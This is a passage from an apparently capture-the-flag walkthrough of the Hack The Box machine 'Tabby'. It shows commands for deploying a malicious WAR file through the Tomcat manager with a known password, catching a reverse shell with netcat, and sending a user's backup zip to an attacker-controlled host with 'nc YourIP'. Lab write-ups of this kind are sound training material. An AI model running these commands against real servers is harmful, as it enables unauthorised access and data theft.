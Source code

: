 And then upload the file using tomcat API.

{%highlight text%}
curl -v -u tomcat:\$3cureP4s5w0rd123! --upload-file pwn.war http://10.10.10.194:8080/manager/text/deploy?path=/example&update=true
{%endhighlight%}

**Remember that we will use a backslash as a escape mechanism in the front of our password because it contains a "`$`" which can be interpreted by the terminal as a variable and that will mess up our command.**

Next just start a netcat listener and browse to the path you provided when uploading the file.

{%highlight text%}
curl http://10.10.10.194:8080/example


nc -lvp 1234
Listening on [0.0.0.0] (family 0, port 1234)
Connection from megahosting.htb 54708 received!
python3 -c 'import pty; pty.spawn("/bin/bash")'
tomcat@tabby:/var/lib/tomcat9$ whoami
whoami
tomcat
tomcat@tabby:/var/lib/tomcat9$ id
id
uid=997(tomcat) gid=997(tomcat) groups=997(tomcat)
{%endhighlight%}

Now we are tomcat user and next we need to get the "ash" user. So now I perform the basic piv esc methods without any luck. Only option left is look around for juicy files. I spent good amount of time here too. 

Lets skip my frustration and get right to the main point. The only file I could find that belonged to the user ash was a password protected zip file. So I download it to my machine using a fancy trick I learned recently. Take a look.

{%highlight text%}
tomcat@tabby:/var/www/html/files$ ls -al
ls -al
total 36
drwxr-xr-x 4 ash  ash  4096 Jun 17 21:59 .
drwxr-xr-x 4 root root 4096 Jun 17 16:24 ..
-rw-r--r-- 1 ash  ash  8716 Jun 16 13:42 16162020_backup.zip
drwxr-xr-x 2 root root 4096 Jun 16 20:13 archive
drwxr-xr-x 2 root root 4096 Jun 16 20:13 revoked_certs
-rw-r--r-- 1 root root 6507 Jun 16 11:25 statement

tomcat@tabby:/var/www/html/files$ nc YourIP 5678 < 16162020_backup.zip

nc -lvnp 5678 > backup.zip
{%endhighlight%}

The second last line is to be executed on the target machine and the last line is for our attacking machine. 

Now we have the zip file I try to crack it using a new tool called fcrackzip.
